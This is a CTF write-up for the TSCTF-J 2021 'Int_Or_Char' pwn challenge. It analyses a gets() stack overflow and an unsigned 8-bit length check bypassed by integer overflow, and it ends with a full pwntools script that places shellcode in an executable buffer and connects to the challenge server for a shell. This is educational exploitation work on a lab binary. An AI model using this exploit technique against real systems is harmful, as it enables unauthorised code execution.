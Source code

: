 ```yaml
---
title: "TSCTF-J_2021 Pwn - Int_Or_Char WriteUp"
date: 2021-10-30
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## Problem

### Preliminary Determination of Ideas

Using `checksec` to check the file, it is found that NX and PIE are not enabled, so consider ret2text and ret2shellcode preliminarily.

![checksec](https://cdn.ova.moe/img/image-20211025175327904.png)

<!--truncate-->

### Code Analysis

Let's jump directly to the `pwn()` function.

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

Noticing that `gets(s)` does not limit the length, a stack overflow could be exploited here.

Moving to the `check(v2, s)` function.

```c
char *__cdecl check(int a1, char *src)
{
  if ((unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u)
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

Here, we are required to have a length `a1 > 3 && a1 <= 8`. If so, we cannot construct the desired payload. In this case, we can refer to the write-up of [Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1) from Attacking & Defending World, which mentions an **integer overflow vulnerability**.

> A simple example in C language:
>
> For a `2-byte unsigned short int variable`, when its data length exceeds 2 bytes, it will overflow, and only the last two bytes of data will be used.
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257;
> if (var1 == var2)
> {
> printf("overflow");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> overflow
> ```

Returning to our problem, our `v2` is an `unsigned __int8` variable, meaning its value range is from `0 to 255`. If we pass a data length of *256*, the value of `v2` actually becomes *1* (255 + 1), so the length we pass can be from *(255+4)* to *(255+8)*, which is *259-263* characters.

With the character length check bypassed, what should we do next to exploit this vulnerability?

```c
char *strcpy(char *dest, const char *src);
```

This is the prototype of `strcpy`, which means the content of `src` will be copied to the address of `dest`, that is, the location of `passwd_buf` in the problem.

We take a look at the stack here.

[Mark's explanation](https://cdn.ova.moe/img/image-20211025192651649.png) from the image reveals that due to NX not being enabled, our buffer is **executable**, giving us the condition to use a `shellcode`. As we do not have any system call functions in place, we must craft our own shellcode.

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # Specify the target as a 32-bit system

shellcode = asm(shellcraft.sh()) # Generate shellcode
buf_addr = 0x804A060 # Address of buf

payload = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # Align shellcode to the bottom of the stack, add 4 bytes of data to overwrite rbp, then add p32(buf_addr) to jump to buf_addr for execution, which is our shellcode
payload = payload + b'A'*(262-len(payload)) # Pad the payload to exploit the integer overflow vulnerability

p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payload)
p.interactive()
# At this point, the shell is obtained, and the subsequent steps are self-explanatory
```

> The server had already been shutdown before the writing of this WriteUp, so the post-shell-taking process could not be demonstrated.

### Personal Summary

Though the implementation of the integer overflow was relatively quick, it took quite a while to figure out how to run the shellcode (due to the need to overwrite rbp after reaching the bottom of the stack, which I completely didn't understand before). 

Pwn is indeed fascinating.

## References

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark

<!-- AI -->
